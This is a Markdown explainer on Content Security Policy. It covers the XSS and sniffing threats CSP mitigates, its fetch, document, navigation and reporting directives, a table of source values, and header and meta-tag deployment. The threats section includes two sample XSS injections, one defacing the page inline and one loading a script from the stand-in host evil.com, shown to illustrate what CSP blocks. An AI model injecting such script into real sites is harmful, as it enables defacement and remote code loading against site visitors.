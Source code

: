 ```yaml
---
title: 🛡️ What is a Content Security Policy (CSP)?
description: A Content Security Policy (CSP) is an added layer of security that helps businesses and security teams mitigate certain types of client-side attacks.
date: 2024-05-19
tags: ['web']
published: true
---
```


## Introduction

Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is a browser security mechanism that aims to mitigate Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

![Content Security Policy](../img/2024-05-19/content-security-policy.jpg)

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

## Threats

### Mitigating cross-site scripting

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>
  document.body.innerHTML = 'defaced'
</script>
```

will not work.

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

### Mitigating packet sniffing attacks

In addition to restricting the domains from which content can be loaded, the server can specify which protocols are allowed to be used; for example (and ideally, from a security standpoint), a server can specify that all content must be loaded using HTTPS. A complete data transmission security strategy includes not only enforcing HTTPS for data transfer, but also marking all cookies with the `secure` attribute and providing automatic redirects from HTTP pages to their HTTPS counterparts. Sites may also use the `Strict-Transport-Security` HTTP header to ensure that browsers connect to them only over an encrypted channel.

## CSP Directive Reference

This documentation is provided based on the [Content Security Policy Level 2](https://www.w3.org/TR/CSP2/) W3C Recommendation, and the [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/) W3C Working Draft

### Fetch Directives

Fetch directives tell the browser the locations to trust and load resources from. Most fetch directives have a certain [fallback list specified in w3](https://www.w3.org/TR/CSP3/#directive-fallback-list). This list allows for granular control of the source of scripts, images, files, etc.

- `default-src` is a fallback directive for the other fetch directives. Directives that are specified have no inheritance, yet directives that are not specified will fall back to the value of `default-src`. <Tag>CSP Level 1</Tag>
- `script-src` specifies the locations from which a script can be executed from. It is a fallback directive for other script-like directives. <Tag>CSP Level 1</Tag>
  - `script-src-elem` controls the location from which execution of script requests and blocks can occur.
  - `script-src-attr` controls the execution of event handlers.
- `style-src` controls from where styles get applied to a document. This includes `<link>` elements, `@import` rules, and requests originating from a Link HTTP response header field. <Tag>CSP Level 1</Tag>
  - `style-src-elem` controls styles except for inline attributes.
  - `style-src-attr` controls styles attributes.
- `img-src` specifies the URLs that images can be loaded from. <Tag>CSP Level 1</Tag>
- `connect-src` provides control over fetch requests, XHR, eventsource, beacon and websockets connections. <Tag>CSP Level 1</Tag>
- `font-src` specifies which URLs to load fonts from. <Tag>CSP Level 1</Tag>
- `object-src` specifies the URLs from which plugins can be loaded from. <Tag>CSP Level 1</Tag>
- `media-src` specifies the URLs from which video, audio and text track resources can be loaded from. <Tag>CSP Level 1</Tag>
- `child-src` allows the developer to control nested browsing contexts and worker execution contexts. <Tag>CSP Level 2</Tag>
- `prefetch-sr`c specifies the URLs from which resources can be prefetched from. <Tag>CSP Level 3</Tag>
- `manifest-src` specifies the URLs that application manifests may be loaded from. <Tag>CSP Level 3</Tag>

### Document Directives

Document directives instruct the browser about the properties of the document to which the policies will apply to.

- `sandbox`(https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox) restricts a page's actions such as submitting forms. <Tag>CSP Level 1</Tag>
  - Only applies when used with the request header `Content-Security-Policy`.
  - Not specifying a value for the directive activates all of the sandbox restrictions. `Content-Security-Policy: sandbox;`
- `base-uri` specifies the possible URLs that the `<base>` element can use. <Tag>CSP Level 2</Tag>
- `plugin-types` limits the types of resources that can be loaded into the document (e.g. application/pdf). <Tag>CSP Level 2</Tag> 3 rules apply to the affected elements, `<embed>` and `<object>`:
  - The element needs to explicitly declare its type.
  - The element's type needs to match the declared type.
  - The element's resource needs to match the declared type.
  ```HTTP title="EXAMPLE PLUGIN-TYPES POLICY"
  plugin-types application/pdf;
  ```

### Navigation Directives

Navigation directives instruct the browser about the locations that the document can navigate to.

- `form-action` restricts the URLs which the forms can submit to. <Tag>CSP Level 2</Tag>
- `frame-ancestors` restricts the URLs that can embed the requested resource inside of `<frame>`, `<iframe>`, `<object>`, `<embed>`, or `<applet>` elements. <Tag>CSP Level 2</Tag>
  - If this directive is specified in a `<meta>` tag, the directive is ignored.
  - This directive doesn't fallback to the `default-src` directive.
  - `X-Frame-Options` is rendered obsolete by this directive and is ignored by the user agents.
- `navigate-to` restricts the URLs that the document may navigate to by any means. For example when a link is clicked, a form is submitted, or window.location is invoked. If `form-action` is present then this directive is ignored for form submissions. Removed from the CSP 3 Spec.

### Reporting Directives

Reporting directives deliver violations of prevented behaviors to specified locations. These directives serve no purpose on their own and are dependent on other directives.

- `report-to` defines a reporting group name defined by a `Report-To` HTTP response header. <Tag>CSP Level 3</Tag> See the [Reporting API](https://w3c.github.io/reporting/) for more info.
- `report-uri` directive is deprecated in CSP Level 3 in favor of the `report-to` directive, which is a URI that the reports are sent to.

## Source List Reference

| Source Value         | Example                       | Description                                                                                                                                                                |
| -------------------- | ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`                  | `img-src *`                   | Wildcard, allows any URL except data: blob: filesystem: schemes.                                                                                                           |
| `'none'`             | `object-src 'none'`           | Prevents loading resources from any source.                                                                                                                                |
| `'self'`             | `script-src 'self'`           | Allows loading resources from the same origin (same scheme, host and port).                                                                                                |
| `data:`              | `img-src 'self' data:`        | Allows loading resources via the data scheme (eg Base64 encoded images).                                                                                                   |
| `https:`             | `img-src https:`              | Allows loading resources only over HTTPS on any domain.                                                                                                                    |
| `domain.example.com` | `img-src domain.example.com`  | Allows loading resources from the specified domain name.                                                                                                                   |
| `*.example.com`      | `img-src *.example.com`       | Allows loading resources from any subdomain under example.com.                                                                                                             |
| `'unsafe-inline'`    | `script-src 'unsafe-inline'`  | Allows use of inline source elements such as style attribute, onclick, or script tag bodies (depends on the context of the source it is applied to) and `javascript:` URIs |
| `'unsafe-eval'`      | `script-src 'unsafe-eval'`    | Allows unsafe dynamic code evaluation such as JavaScript `eval()`                                                                                                          |
| `'nonce-'`           | `script-src 'nonce-rAnd0m'`   | Allows an inline script or CSS to execute if the script (eg: `<script nonce="rAnd0m">`) tag contains a nonce attribute matching the nonce specified in the CSP header.     |
| `'sha256-'`          | `script-src 'sha256-xyz...'`  | Allows an inline script or CSS to execute if its hash matches the specified hash in the header.                                                                            |
| `'strict-dynamic'`   | `script-src 'strict-dynamic'` | Enables an allowed script to load additional scripts via non-"parser-inserted" script elements (for example `document.createElement('script');` is allowed).               |

## Implementing Content Security Policy

You can deploy a CSP as a HTTP response header or an HTML meta tag.

To configure your web server to return the HTTP Content-Security-Policy header, use:

```HTTP
Content-Security-Policy: [directive] [resource type]
```

To use the HTML `<meta>` element to configure a policy, it looks like this:

```html
<meta
  http-equiv="Content-Security-Policy"
  content="[directive] [resource type]"
/>
```
